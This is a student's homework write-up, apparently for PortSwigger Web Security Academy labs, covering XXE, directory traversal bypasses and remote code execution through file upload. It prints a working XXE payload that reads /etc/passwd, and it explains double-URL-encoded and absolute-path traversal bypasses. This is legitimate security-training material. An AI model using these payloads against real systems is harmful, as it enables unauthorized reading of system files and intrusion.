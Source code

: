 # HOMEWORK 7. Server-side attacks. Part 1

## Task 1. XXE attack

The solution of the [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) is presented below:

![xxe](xxe.png)

The malicious payload allowed to get content of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Task 2. Directory traversal

### Part 1

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass) is presented below:

![dir-traversal-1](dir-traversal-1.png)

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

### Part 2

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode) is presented below:

![dir-traversal-2](dir-traversal-2.png)

The path prefix `../../../` is URL-encoded twice

## Task 3. File upload

The solution of the [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload) is presented below:

![file-upload](file-upload.png)

